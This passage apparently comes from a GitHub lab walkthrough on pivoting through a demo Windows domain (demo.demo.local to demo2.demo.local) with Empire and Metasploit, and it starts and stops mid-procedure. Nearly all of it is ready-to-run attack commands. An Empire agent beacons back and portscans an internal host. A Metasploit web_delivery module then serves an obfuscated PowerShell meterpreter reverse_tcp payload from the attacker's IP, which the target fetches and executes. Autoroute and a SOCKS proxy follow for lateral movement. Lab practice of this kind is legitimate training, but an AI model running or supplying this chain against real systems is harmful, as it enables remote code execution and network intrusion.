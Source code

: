 ```bash
-> Switch to the empire tab and you will find that there is new agent checked in ! # **demo.demo.local**
# run this to make sure :
(Empire: usestager/multi/launcher) > agents # this will print agents table ..
# Every 5 Sec the empire check the connection, so every 5 Sec the target will call us :)
#--------------------------------
# Time To interact :)
(Empire: agents) > interact *Agent name* # This is ware Powershell Comes to ..
(Empire: *Agent name*) > usemodule powershell/situational_awareness/host/computerdetails
(Empire: usemodule/powershell/situational_awareness/host/computerdetails) > execute # This may take some time
# => Now We know our target detailes..
#--------------------------------
# 9) ....
# Getting access to the demo2.demo.local via our empire sesstion ...
(Empire: *Agent name*) > usemodule powershell/situational_awareness/network/portscan #
(Empire: usemodule/powershell/situational_awareness/network/portscan) >
# => Now You Have to spicify your target IP, in this case will be the demo2.demo.local IP.
(Empire: usemodule/powershell/situational_awareness/network/portscan) > set HOSTS  192.x.x.x  ## For demo2.demo.local
(Empire: usemodule/powershell/situational_awareness/network/portscan) > execute # This Will Show You Open Ports in the Non-Reachable target  demo2.demo.local
#--------------------------------
# 10) ....
# Now To MetaSploit :), We Gonna Utilaize a Web Delevery Payload to get meterpreter sesstion on the Reachable target ***First*** and then Non-Reachable target
msfconsole -q # To avoid the banner :)
msf6> search web_delivery
msf6> use exploit/multi/script/web_delivery
msf6 exploit( multi/script/web_delivery) > show options
msf6 exploit( multi/script/web_delivery) > set target 2 # To use Powershell
msf6 exploit( multi/script/web_delivery) > set SRVHOST *Your attacker Machine IP*
msf6 exploit( multi/script/web_delivery) > set LHOST *Your attacker Machine IP*
msf6 exploit( multi/script/web_delivery) > set payload windows/meterpreter/reverse_tcp
msf6 exploit( multi/script/web_delivery) > exploit
***# This will Generate an obfuscated powershell code and a URL that we should run on our target system***
#--------------------------------
# 11) ....
****# -> Copy the Generated URL and Go Back to Empire Sesstion**
(Empire: *Agent name*) > usemodule powershell/code_execution/invoke_metasploitpayload
(Empire: usemodule/powershell/code_execution/invoke_metasploitpayload) > set URL ****Paste URL that you coped!****
(Empire: usemodule/powershell/code_execution/invoke_metasploitpayload) > execute # if everything goes right you should get a meterpreter sesstion on metasploit ...
******#--------------------------------
# 12) ...
# You Should Notefid with the new sesstion, When it happend move to it ..
msf6 exploit( multi/script/web_delivery) > sesstions 1
meterpreter> sysinfo # you should get the **demo.demo.local info**
## Put This meterpreter sesstion to background ...
meterpreter> bg
msf6 exploit( multi/script/web_delivery) > search autoroute
msf6 exploit( multi/script/web_delivery) > use post/multi/manage/autoroute
msf6 post( multi/multi/manage/autoroute) > set SESSTION 1
msf6 post( multi/multi/manage/autoroute) > run
## Now We Can Performe Port Forwarding from the non reachable to ours .
#--------------------------------
# 13) ...
# Using auxiliary/server/socks_proxy
msf6 post( multi/multi/manage/autoroute) > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > show options
msf6 auxiliary(server/socks_proxy) > set SRVHOST *Your attacker Machine IP*
```